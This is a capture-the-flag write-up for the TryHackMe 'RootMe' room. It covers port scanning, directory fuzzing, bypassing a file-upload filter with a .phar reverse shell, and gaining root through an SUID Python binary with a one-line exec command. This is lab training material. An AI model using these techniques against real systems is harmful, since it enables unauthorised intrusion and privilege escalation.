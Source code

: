 ```yaml
---
title: TryHackMe | RootMe
author: Zeropio
date: 2022-09-26
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/rootme
---
```



# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We some some CVE assigned to that Apache version. Fuzzing the web we found:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.179.194/FUZZ'

	css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 112ms]
	js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 284ms]
	uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 111ms]
	panel                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 106ms]
	server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 103ms]
	                        [Status: 200, Size: 616, Words: 115, Lines: 26, Duration: 105ms
```

Inside of `/uplaods/` we found a empty directory. In `/panel/` we can see that we can upload some files. Let’s try with the default pentestmonkey reverse shell.

---

# Fingerprint

Upload the shell to the target and we got the following error:

![Untitled](/assets/img/tryhackme/rooms/rootme/Untitled.png)

Let’s try finding what type of file accepts. Uploading `shell.php3`{: .filepath} allow us. Now we can see the file in the `/uploads/` path. Start a netcat and connect to it. We first see that our file didn’t executed.

Trying with `shell.phar`{: .filepath} will work.

---

# Privilege Escalation

We will search for SUID, finding one particular binary:

```console
bash-4.4$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

	-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```

We will use [GTFObins](https://gtfobins.github.io/gtfobins/python/#suid) to get the explotation:

```console
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
	root
```